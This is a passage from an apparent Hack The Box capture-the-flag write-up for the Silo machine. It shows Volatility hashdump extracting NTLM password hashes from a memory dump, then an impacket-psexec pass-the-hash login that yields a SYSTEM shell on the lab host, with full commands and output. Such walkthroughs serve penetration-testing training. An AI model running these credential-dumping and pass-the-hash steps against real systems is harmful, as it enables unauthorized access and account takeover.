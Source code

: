 Now, we will use the hashdump plugin to dump all the hashes from \REGISTRY\MACHINE\SYSTEM to \SystemRoot\System32\Config\SAM

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/volatility]
└─$ ./volatility -f /home/kali/Desktop/silo/SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

Since we have obtained the hash for the Administrator, we can use pass-the-hash attack to authenticate to the Windows server using the obtained hash.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/volatility]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82 Administrator@10.10.10.82
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file BRkPUcaV.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service hVnS on 10.10.10.82.....
[*] Starting service hVnS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```
